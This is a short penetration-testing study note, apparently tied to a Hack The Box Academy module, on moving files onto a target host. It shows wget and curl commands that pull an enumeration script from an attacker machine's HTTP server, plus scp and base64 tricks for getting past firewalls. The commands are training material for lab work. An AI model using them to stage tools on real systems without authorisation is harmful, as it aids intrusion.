```yaml
---
id: Transferring Files
aliases: []
tags:
  - Pentest/General/Transferring-Files
---
```


# Transferring files

- [HTB Academy - Transferring Files](https://academy.hackthebox.com/module/77/section/849)

## Python HTTP Server

Run a [Python HTTP Server](https://developer.mozilla.org/en-US/docs/Learn_web_development/Howto/Tools_and_setup/set_up_a_local_testing_server)
on the attacker machine and use **wget** or **curl** to download the file(s) to
the remote host

**Attacker**: Run Python HTTP server

```sh
python3 -m http.server 8000
```

**Target**: Acquire the files from the remote host

```sh
wget http://10.10.14.1:8000/linenum.sh
```

```sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

It is possible to transfer files using `scp` once

- SSH connection is established
- User credentials are known

**Attacker**: Copy the file to the remote machine

```sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Base64

It may be not possible to transfer files if (for example) the remote host has
firewall protection.

1. **Attacker**: Encode the binary file to base64

```sh
base64 file.ext -w 0
```

2. **Target**: Copy the base64 string, decode it, and pipe it into a file

```sh
echo f0VMRgIBAQAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaiXSInmDwU | base64 -d > file.ext
```

## Validate File Transfers

Validate the format of the file

```sh
file file.ext
```

**Attacker**: Run a `md5sum` on the file

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```

**Target**: Run `md5sum` to validate the hash

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```
